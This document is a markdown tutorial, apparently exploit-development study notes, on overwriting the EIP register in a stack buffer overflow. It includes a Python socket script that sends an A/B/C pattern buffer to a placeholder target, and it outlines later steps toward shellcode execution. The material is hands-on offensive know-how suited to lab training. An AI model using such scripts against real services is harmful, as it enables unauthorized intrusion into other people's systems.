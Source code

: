 # Overwriting the EIP

## Overview
Overwriting the EIP (Extended Instruction Pointer) is a critical step in buffer overflow exploitation. This process demonstrates that we have precise control over program execution flow, which will allow us to redirect it to our shellcode.

## Key Concepts

- **EIP**: The register that contains the address of the next instruction to be executed
- **Goal**: Reliably and predictably control the value in the EIP register
- **Precision**: Must hit the EIP exactly with our chosen value

## Process

1. **Create a Buffer with Known Pattern**:
   - Fill buffer with "A"s up to the offset
   - Add 4 "B"s (\\x42\\x42\\x42\\x42) to overwrite the EIP
   - Follow with "C"s to complete the buffer

2. **Send to Target**: Send the crafted buffer to the vulnerable application

3. **Verify Control**: Confirm the EIP contains "42424242" (hex representation of "BBBB")

## Python Script Example

```python
#!/usr/bin/python
import socket, sys

offset = 2040  # Replace with your confirmed offset
buffer = b"A" * offset + b"B" * 4 + b"C" * (3000 - offset - 4)

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('TARGET_IP', TARGET_PORT))
    s.send(('COMMAND ' + buffer.decode() + '\r\n').encode())
    s.close()
    print("Buffer sent")
except:
    print("Error connecting to server")
    sys.exit()
```

## Important Considerations

- Successful EIP overwrite will show "42424242" in the EIP register
- Verify in the debugger that the stack layout is as expected:
  - "A"s before the EIP
  - "B"s in the EIP
  - "C"s after the EIP
- This control is essential for the next stages of exploitation
- In some cases, you may need additional space for shellcode, either before or after the EIP

## Troubleshooting

- If EIP doesn't contain "42424242", double-check your offset calculation
- Review the debugger stack view to see where your pattern is landing
- Ensure you're using the correct character encoding in your script
- Verify that the application is processing your input as expected

## Next Steps After Successful EIP Overwrite

After confirming control of the EIP:
1. Identify bad characters
2. Find a suitable module with a "JMP ESP" instruction (or equivalent)
3. Generate shellcode avoiding the bad characters
4. Redirect execution to your shellcode
